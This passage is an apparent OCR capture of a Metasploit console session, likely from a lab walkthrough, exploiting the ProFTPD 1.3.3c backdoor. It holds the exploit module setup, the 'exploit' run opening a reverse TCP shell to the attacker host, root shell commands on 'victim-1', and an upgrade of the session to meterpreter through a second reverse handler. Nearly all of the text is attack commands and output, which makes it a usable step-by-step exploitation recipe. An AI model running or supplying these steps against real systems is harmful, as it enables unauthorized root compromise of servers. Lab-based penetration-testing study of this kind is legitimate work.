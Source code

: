 ```
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/proftpd_133c_backdoor) > setg RHOSTS 192.87.136.3
RHOSTS => 192.87.136.3
```

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.87.136.2:4444 
[*] 192.87.136.3:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo dhpqako5jNi3VQor;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "dhpqako5jNi3VQor\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.87.136.2:4444 -> 192.87.136.3:33826) at 2022-11-04 10:53:58 +0000

/bin/bash -i
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/# whoami
whoami
root
root@victim-1:/# groups root
groups root
root : root
```

```
root@victim-1:/# ^Z   
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.87.136.2:4444 -> 192.87.136.3:33826 (192.87.136.3)
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.87.136.2:4433 
[*] Sending stage (980808 bytes) to 192.87.136.3
```